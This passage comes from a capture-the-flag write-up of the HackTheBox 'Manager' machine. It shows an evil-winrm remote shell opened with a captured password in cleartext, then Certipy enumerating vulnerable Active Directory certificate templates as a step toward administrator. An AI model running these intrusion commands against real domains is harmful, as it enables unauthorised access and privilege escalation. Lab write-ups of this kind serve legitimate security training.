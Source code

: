 ```bash
┌──(kali㉿kali)-[~/htb/share_sysvol/manager.htb]
└─$ evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
  
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                 

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                   

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents>
```


# Shell as `administrator`

With a Windows domain, the next thing to check used to be Bloodhound, but lately it’s worth checking Advice Directory Certificate Services (ADCS) as well, and that’s quick, so I’ll start there. This can be done by uploading [Certify](https://github.com/GhostPack/Certify) or remotely with [Certipy](https://github.com/ly4k/Certipy). I find Certipy easier.

Here's the related article:
<https://book.hacktricks.xyz/kr/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation>

```bash
┌──(kali㉿kali)-[~/htb/Certipy]
└─$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
```
